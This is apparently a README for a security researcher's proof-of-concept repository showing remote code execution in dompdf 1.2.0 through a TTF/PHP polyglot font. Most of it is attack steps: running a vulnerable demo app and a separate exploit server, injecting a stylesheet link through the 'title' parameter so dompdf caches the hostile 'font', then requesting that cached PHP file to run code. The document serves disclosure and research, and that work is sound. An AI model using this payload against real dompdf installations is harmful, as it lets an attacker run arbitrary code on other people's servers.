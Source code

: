 # RCE exploit for dompdf

This repository contains a vulnerable demo application using dompdf 1.2.0 and an exploit that achieves remote code execution via a ttf+php polyglot file.

![Exploit Overview](exploit/overview.png)

For more details, please visit https://positive.security/blog/dompdf-rce

## Instructions

1. Run the demo application
```
$ cd application
$ php -S localhost:9000
```

2. Run the exploit server
```
$ cd exploit
$ php -S localhost:9001
```

3. Trigger the exploit
```
http://localhost:9000/index.php?pdf&title=<link rel=stylesheet href='http://localhost:9001/exploit.css'>
```

4. Access the cached php "font" file and execute `phpinfo()`
```
http://localhost:9000/dompdf/lib/fonts/exploitfont_normal_3f83639933428d70e74a061f39009622.php
```

**Please note:** In case you're using different domains or ports, please edit `exploit/exploit.css` accordingly and check `application/dompdf/lib/fonts` for the full font filename.
